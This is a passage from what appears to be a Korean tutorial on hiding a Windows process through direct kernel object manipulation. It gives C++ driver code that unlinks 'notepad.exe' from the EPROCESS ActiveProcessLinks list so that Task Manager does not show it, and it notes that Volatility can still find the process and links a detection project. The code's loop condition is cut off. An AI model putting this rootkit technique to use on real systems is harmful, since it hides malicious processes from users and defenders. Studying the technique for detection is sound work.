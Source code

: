 이 후, LIST_ENTRY에 저장된 각 EPROCESS 정보를 순회하면서 ImageFileName을 확인하여 Target 프로세스인지 탐색하고 동일할 경우 기존에 Linked List에서 삭제가 일어났을 경우 처리하는 로직과 유사하게 작성하되 Target 프로세스의 FLINK와 BLINK를 자신의 값을 가르키도록 한다. 즉, LIST_ENTRY에서 링크만 제거한다.

```c++
do {
    // 반복 후, pCurrentProcess 즉 EPROCESS 구조체 Offest의 시작 주소를 구하기 위해 ActiveProcessLinks의 Offset을 빼준다.
    pCurrentProcess = (unsigned char*)((unsigned char*)pCurrentListEntryNode - ACTIVE_PROCESS_LINKS_OFFSET);
    char* pImageFileName = ((unsigned char*)pCurrentProcess + IMAGE_FILE_NAME);
    
    DbgPrint("\t\t[-] Eprocess Pointer : %p\n", pCurrentProcess);
    DbgPrint("\t\t[-] Frist PLIST Link : %p\n", pCurrentListEntryNode);
    DbgPrint("\t\t\t[-] ImageFileName : %s\n", pImageFileName);
    
    if (strcmp("notepad.exe", pImageFileName) == 0) {
        DbgPrint("\t\t\t\t[!] FIND TARGET PROCESS\n");
        
        // 아래 연산은 자료 구조에서 Linked List에 저장된 자료가 Delete 되었을 때 일어나는 로직과 유사하다.
        pTempListEntryNode = pCurrentListEntryNode->Blink;
        pTempListEntryNode->Flink = pCurrentListEntryNode->Flink;
        pCurrentListEntryNode->Flink->Blink = pTempListEntryNode;

        pCurrentListEntryNode->Flink = pCurrentListEntryNode;
        pCurrentListEntryNode->Blink = pCurrentListEntryNode;

        break;
    }
        
    pCurrentListEntryNode = pCurrentListEntryNode->Flink;
} while (pCurrentListEntryNode->Flink 
```

이제 Target 프로세스와 `DbgView`를 실행 후, 직접 만든 Loader나 [`OSRLoader`](https://www.osronline.com/article.cfm^article=157.htm)를 이용하여 드라이버를 로드하면 TaskManager 상에서 해당 프로세스가 노출되지 않는 것을 확인할 수 있다. 그러나 이 구조체는 그대로 메모리 상에 존재하고 있으므로 메모리를 덤프하여 `Volatility`를 이용하면 분석이 가능하다. 추가로 Detection 로직은 [이 곳](https://github.com/edix/HiddenProcessDetection)에 잘 작성되어있다.

## 0x03_PoC (YouTube)
[![Windows Process Injection Technique - Reflective DLL Injection](http://img.youtube.com/vi/-QHp4HFuj3U/0.jpg)](https://youtu.be/-QHp4HFuj3U?t=0s) 

